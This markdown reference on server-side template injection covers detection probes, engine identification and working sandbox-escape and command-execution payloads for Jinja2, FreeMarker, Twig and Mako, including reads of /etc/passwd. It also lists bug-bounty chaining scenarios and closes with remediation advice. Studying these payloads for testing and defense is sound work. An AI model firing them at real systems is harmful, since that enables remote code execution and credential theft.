

# Mechanism: Server-Side Template Injection (SSTI) & Sandbox Escapes

## 1. Architectural Vulnerability Profile
*   **Vulnerability Class:** Template Engine Expression Evaluation / Untrusted Input in Template Context
*   **STRIDE Category:** Elevation of Privilege, Tampering, Information Disclosure
*   **Trust Boundary Crossed:** User Input (Query Params, Forms, Profile Names, Email Templates) $\rightarrow$ Template Rendering Engine $\rightarrow$ Underlying OS Command Execution & File System
*   **Target Engines:** Jinja2 (Python), Mako (Python), Twig (PHP), Smarty (PHP), FreeMarker (Java), Velocity (Java), Pebble (Java), ERB (Ruby), Thymeleaf (Java), Handlebars (Node.js).

---

## 2. Detection & Identification Matrix

### Step 1: Universal Polyglot Probe
Inject a sequence that causes distinct behavior across different template engines without breaking standard text formatting:
```text
${{<%[%'"}}%\
```
If the application renders an error or strips characters, test mathematical expression evaluations:

### Step 2: Engine Decision Tree



| Engine | Language | Identification Probe | Output if Vulnerable |
|---|---|---|---|
| **Jinja2** | Python | `{{7*'7'}}` | `7777777` |
| **Twig** | PHP | `{{7*'7'}}` | `49` |
| **FreeMarker** | Java | `${7*7}` | `49` |
| **Mako** | Python | `${7*7}` | `49` |
| **Velocity** | Java | `#set($x=7*7)${x}` | `49` |
| **ERB** | Ruby | `<%= 7*7 %>` | `49` |
| **Thymeleaf** | Java | `__${7*7}__::x` | Evaluates in preprocessing |

---

## 3. High-Impact Exploitation Vectors

### Vector A: Jinja2 Sandbox Escape (Python)
*   **Object Hierarchy Traversal:**
    ```python
    {{ ''.__class__.__mro__[1].__subclasses__() }}
    ```
*   **Command Execution via `subprocess.Popen`:**
    ```python
    {{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
    ```
*   **Filter Bypass (When dots or quotes are blocked):**
    ```python
    {{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('whoami')['read']() }}
    ```

### Vector B: FreeMarker Remote Code Execution (Java)
*   **Template Model Execution:**
    ```html
    <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
    ```
*   **ObjectConstructor Payload:**
    ```html
    <#assign oc="freemarker.template.utility.ObjectConstructor"?new()>
    ${ oc("java.lang.ProcessBuilder", "cat", "/etc/passwd").start() }
    ```

### Vector C: Twig File Read & Command Execution (PHP)
*   **Reading Sensitive Files:**
    ```twig
    {{ '/etc/passwd'|file_excerpt(1,30) }}
    ```
*   **System Execution via Filters:**
    ```twig
    {{ ['id']|filter('system') }}
    {{ ['cat /etc/passwd']|filter('passthru') }}
    ```

### Vector D: Mako Code Execution (Python)
*   Mako treats `<% ... %>` blocks as literal Python code:
    ```python
    <%
      import os
      x = os.popen('id').read()
    %>
    ${x}
    ```

---

## 4. Chaining Logic & Real-World Bug Bounty Scenarios
*   `Email Template Customization` $\rightarrow$ `SSTI in Subject/Body` $\rightarrow$ `Server-Side RCE via Worker Node`.
*   `Profile Name / Organization Name` $\rightarrow$ `Reflected in Generated Invoices (PDF/HTML)` $\rightarrow$ `SSTI in PDF Generator` $\rightarrow$ `Cloud Metadata Theft`.
*   `SSTI Sandbox Restriction` $\rightarrow$ `Environment Variable Dump` $\rightarrow$ `AWS / Database Credential Exfiltration`.

---

## 5. Defense & Remediation
1. **Never Concatenate Raw Input into Template Strings:** Pass user input strictly as **context variables**, never as part of the template body itself.
   - *Vulnerable:* `Template("Hello " + user_input).render()`
   - *Secure:* `Template("Hello {{ name }}").render(name=user_input)`
2. **Logic-less Templates:** Use logic-less engines (e.g. Mustache) for user-facing template customizations.
3. **Strict Sandboxing:** Enable sandboxed rendering environments that restrict reflection and process spawning.
